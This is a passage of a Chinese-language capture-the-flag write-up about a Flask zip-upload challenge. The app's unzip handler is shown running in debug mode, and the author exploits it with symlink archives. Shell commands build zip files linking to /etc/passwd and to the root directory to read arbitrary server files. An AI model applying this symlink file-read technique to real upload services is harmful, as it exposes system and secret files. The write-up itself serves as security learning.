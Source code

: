 ```python
        os.makedirs(uploadpath)

    if request.method == 'GET':
        return redirect('/')

    if request.method == 'POST':
        try:
            upFile = request.files['file']
            print(upFile.filename)
            if os.path.splitext(upFile.filename)[-1]=='.zip':
                filepath=f"{uploadpath}/{md5(upFile.filename.encode()).hexdigest()[0:4]}.zip"
                upFile.save(filepath)
                zipDatas = extractFile(filepath)
                return zipDatas
            else:
                return f"{upFile.filename} is not a zip file !"
        except:
            return make_response("error", 404)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000, debug=True)
```

在线 zip 解压, 解压时直接调用 unzip 系统命令

app.run 中有一个 `debug=True` 的参数, 猜测可能是利用 flask pin 或者覆盖模板文件进行 ssti, 因为 debug 模式下模板文件更新后会自动重新加载

想到了之前网鼎杯的时候利用 unrar 的 cve, 搜了一下发现 unzip 目前还没有类似的 cve

因为系统是 linux 的, 想试试软链接行不行, 但之前也没遇到过类似的利用方式, 只能碰碰运气了

参考文章

[https://www.yulate.com/141.html](https://www.yulate.com/141.html)

[https://forum.butian.net/share/906](https://forum.butian.net/share/906)

构造 passwd 的软链接

```bash
ln -s /etc/passwd passwd
zip -y passwd.zip passwd
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171931024.png)

确实能够读取其它文件, 不过 /flag /flag.txt 之类的文件都读不出来

然后又试了下软链接目录

```bash
ln -s / test
zip --symlinks test.zip ./*
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171933751.png)
